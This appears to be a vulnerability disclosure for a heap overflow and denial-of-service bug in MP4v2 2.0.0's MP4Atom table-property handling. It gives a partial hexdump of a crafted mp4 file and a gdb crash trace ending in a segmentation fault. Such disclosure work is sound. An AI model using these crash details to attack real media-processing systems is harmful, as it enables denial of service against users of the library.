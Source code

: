 # libmp4_bof

MP4v2_BOF

The MP4Atom class in mp4atom.cpp in MP4v2 through 2.0.0 mishandles
Entry Number validation for the MP4 Table Property, which allows
remote attackers to cause a denial of service (overflow, insufficient memory allocation, and segmentation fault) or possibly have unspecified other impact via a crafted mp4 file.


MP4v2 through 2.0.0

Mp4 Table Property that checks Entry number has a vulnerability with opening a maliciously craft mp4 file. It causes Memory crash and Denial-Of-Service.

 root@ubuntu:/home/wim# hexdump -C wim.mp4 | grep 63
	
 00000020  de 36 00 00 6c 69 62 66  61 61 63 20 31 2e 32 36  |.6..libfaac 1.26|
 00000330  3e ff af f3 c7 0b ba b2  a5 51 2a b2 63 43 ed ba  |>........Q*.cC..|
 00000500  ac 08 90 50 56 14 81 5c  70 aa 05 ef 34 1a a4 63  |...PV..\p...4..c|
 00000510  a8 63 26 5d 78 02 04 08  08 01 6a a7 72 00 85 50  |.c&]x.....j.r..P|
 00000630  cb 58 02 6a 02 02 80 2e  00 00 04 c0 12 01 70 00  |.X.j..........p.|
 00000880  9f ce 33 e1 f6 03 b3 e6  63 fd be d7 25 3f 38 d9  |..3.....c...%?8.|
 00000bd0  00 00 00 99 00 00 00 28  73 74 73 63 00 00 00 00  |.......(stsc....|
 00000c00  73 74 63 6f 00 00 00 00  00 00 00 03 00 00 00 20  |stco........... |
 00000c10  00 00 04 ab 00 00 08 df  00 00 00 20 63 74 74 73  |........... ctts|
	

 insufficient checking on Entry Number in MP4 Table Property- m_pProperties[i] 0xC1C ~ 0xC1F in /src/mp4atom.cpp

 When overflow occurs, small size of data is allocated and while reading data, crash occurs due to a memory reference error

 gdb-peda$ r ../wim.mp4
 Starting program: /home/wim/.libs/lt-mp4info ../wim.mp4
 /home/wim/.libs/lt-mp4info version 2.0.0
 ../wim.mp4:

 Program received signal SIGSEGV, Segmentation fault.

egisters
 EAX: 0x80695c0 --> 0x0
 EBX: 0xb7fd5000 --> 0x171e40
 ECX: 0x0
 EDX: 0x0
 ESI: 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 EBP: 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 ESP: 0xbfffe890 --> 0x80695c0 --> 0x0
 EIP: 0xb7f0af85 (<mp4v2::impl::MP4Atom::~MP4Atom()+53>: call   DWORD PTR [edx+0x4])
 EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)

code
    0xb7f0af7e <mp4v2::impl::MP4Atom::~MP4Atom()+46>: xchg   ax,ax
    0xb7f0af80 <mp4v2::impl::MP4Atom::~MP4Atom()+48>: mov    edx,DWORD PTR [eax]
    0xb7f0af82 <mp4v2::impl::MP4Atom::~MP4Atom()+50>: mov    DWORD PTR [esp],eax
 => 0xb7f0af85 <mp4v2::impl::MP4Atom::~MP4Atom()+53>: call   DWORD PTR [edx+0x4]
    0xb7f0af88 <mp4v2::impl::MP4Atom::~MP4Atom()+56>: cmp    DWORD PTR [esi+0x44],edi
    0xb7f0af8b <mp4v2::impl::MP4Atom::~MP4Atom()+59>: jbe    0xb7f0afa0 <mp4v2::impl::MP4Atom::~MP4Atom()+80>
    0xb7f0af8d <mp4v2::impl::MP4Atom::~MP4Atom()+61>: mov    edx,DWORD PTR [esi+0x4c]
    0xb7f0af90 <mp4v2::impl::MP4Atom::~MP4Atom()+64>: add    edi,0x1
Guessed arguments:
 arg[0]: 0x80695c0 --> 0x0

stack
 0000| 0xbfffe890 --> 0x80695c0 --> 0x0
 0004| 0xbfffe894 --> 0xb7d736bc --> 0xf9
 0008| 0xbfffe898 --> 0xffffffff
 0012| 0xbfffe89c --> 0xb7fd5000 --> 0x171e40
 0016| 0xbfffe8a0 --> 0xb7fd5000 --> 0x171e40
 0020| 0xbfffe8a4 --> 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 0024| 0xbfffe8a8 ("sttc\264W\354\267\020\225\006\b")
 0028| 0xbfffe8ac --> 0xb7ec57b4 (<mp4v2::impl::MP4StandardAtom::~MP4StandardAtom()+36>: mov    DWORD PTR [esp],esi)

Legend: code, data, rodata, value
 Stopped reason: SIGSEGV
 0xb7f0af85 in mp4v2::impl::MP4Atom::~MP4Atom (this=0x8069510, __in_chrg=<optimized out>) at src/mp4atom.cpp:66
 66         delete m_pProperties[i];

mp4v2-2.0.0(https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/mp4v2/mp4v2-2.0.0.tar.bz2) - v2-2.0.0

i

